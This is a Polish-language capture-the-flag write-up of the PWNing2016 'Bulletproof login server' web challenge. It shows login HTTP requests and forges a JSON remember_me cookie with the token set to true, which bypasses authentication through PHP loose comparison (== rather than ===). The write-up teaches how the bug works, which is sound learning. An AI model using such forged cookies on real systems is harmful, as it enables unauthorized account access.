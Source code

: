 ```yaml
---
title: Bulletproof login server™ - PWNing2016
author: k1k9
categories: [PWNing2016, web]
tags: [ctf, pwning2016]
---
```


# Bulletproof login server™ 
Punkty: 100
Rozwiązań: 49

Panel admina firmy Januszex z Randomia. Nie włamiesz się.
Link: https://monk.pwning2016.p4.team
Udało nam się znaleźć na śmietniku ich stary dysk twardy z którego odzyskaliśmy część kodu strony.

# Rozezeznanie
Mamy dostępne dwa linki, jeden do strony a drugi do kodu pliku o nazwie ```admin.php.corrupted.txt```
![jeden do strony](/assets/posts/bulletproof-login-server-tm/1.png)

## admin.php.corrupted.txt
Zaczniemy od analizy pliku ```admin.php.corrupted.txt```. Kod w pliku prezentuje się tak:
![code](/assets/posts/bulletproof-login-server-tm/code.png)

A oto moje wnioski:
1.  Uwierzytelnianie użytkownika opiera się na ciasteczku ```remember_me```, które składa się z _loginu_ (```admin``` || ```demo```) oraz _tokenu_, który jest sprawdzany za pomocą funkcji ```getUserAuthToken(<login>)```.
2. Jeżeli nie jesteśmy zalogowani a ciasteczko ```remember_me``` jest ustawione, to zostanie wywołany kod echo.

Niewiele informacji ale sprawdźmy reszte

## login.php
Po wejściu na strone widzimy panel logowania, który informuje nas o użytkowniku demo (natkneliśmy się na niego również w kodzie, wcześniej) oraz o haśle jakie ma. 
![2](/assets/posts/bulletproof-login-server-tm/2.png)

Po zajrzeniu w kod strony nic po za bootstrapem i formularzem ciekawego nie ma:
```html
<form action="" method="POST" enctype="multipart/form-data">
    <div class="form-group">
    <label for="login">Login</label>
    <input type="text" name="login" class="form-control">
    </div>
    <div class="form-group">
    <label for="password">Password</label>
    <input type="password" name="password" class="form-control">
    </div>
    <div class="checkbox">
    <label>
        <input type="checkbox" checked disabled> For your convenience we always remember you.
    </label>
    </div>
    <button type="submit" class="btn btn-default">Submit</button>
</form>
```

Sprawdzę jak wygląda wysyłanie requestu logowania:
### Błędne dane
```http
POST /login.php HTTP/2
Host: monk.pwning2016.p4.team
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------264215124639808579761785133742
Content-Length: 296
Origin: https://monk.pwning2016.p4.team
Connection: keep-alive
Referer: https://monk.pwning2016.p4.team/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
TE: trailers

-----------------------------264215124639808579761785133742
Content-Disposition: form-data; name="login"

1337
-----------------------------264215124639808579761785133742
Content-Disposition: form-data; name="password"

1337
-----------------------------264215124639808579761785133742--
```
Odpowiedź nie jest interesująca

### Konto demo
```http
POST /login.php HTTP/2
Host: monk.pwning2016.p4.team
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------164494905017473373402467738118
Content-Length: 299
Origin: https://monk.pwning2016.p4.team
Connection: keep-alive
Referer: https://monk.pwning2016.p4.team/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------164494905017473373402467738118
Content-Disposition: form-data; name="login"

demo
-----------------------------164494905017473373402467738118
Content-Disposition: form-data; name="password"

demo123
-----------------------------164494905017473373402467738118--
```
Od razu możemy zauważyć, że ```Content-Type: multipart/form-data; boundary=``` różni się od poprzedniego. Odpowiedź:
```http
HTTP/2 302 Found
server: nginx
date: Mon, 19 Jun 2023 05:15:40 GMT
content-type: text/html; charset=UTF-8
content-length: 0
set-cookie: remember_me=%7B%22login%22%3A%22demo%22%2C%22token%22%3A%22f0d34353e4de11b28825dc2a5736c17504804013%22%7D; expires=Mon, 03-Jul-2023 05:15:40 GMT; Max-Age=1209600
location: admin.php
X-Firefox-Spdy: h2
```
Natomiast w odpowiedzi zostaje ustawione ciasteczko:
```json
{"login":"demo","token":"f0d34353e4de11b28825dc2a5736c17504804013"}
```
Jeżeli podmienimy ciasteczko na:
```json
{"login":"demo","token":"0000000000000000000000000000000000000000"}
```
otrzymamy:
![3](/assets/posts/bulletproof-login-server-tm/3.png)
Czyli już mniej więcej wiemy za co odpowiada wcześniej analizowany przeze mnie kod. Sprawdźmy czy jest tu możliwe wykonanie wrzucenie czegoś innego. Wyślemy:
```sh
{"login":"admin","token":true}
```
Po sformatowaniu na poprawne URL mamy:
```sh
%7B%22login%22:%22admin%22,%22token%22:true%7D
```
Oj i mamy flagę.

## Podsumowanie
Po przeanalizowaniu kodu jeszcze raz okazuje się, że kod który był zaciemniony jest niepotrzebny a cały problem polegał na walidacji danych:
```php
if ($obj['login'] == 'admin' && $obj['token'] == getUserAuthToken('admin'))
```
Problemem jest użycie operatora ```==``` zamiast ```===``` powoduje to rzutowanie zwracanej wartości funkcji ```getUserAuthToken('admin')``` na wartość boolowską a z racji, że jest to nie pusty string to otrzymujemy true, gdzie finalnie otrzymujemy ```true == true```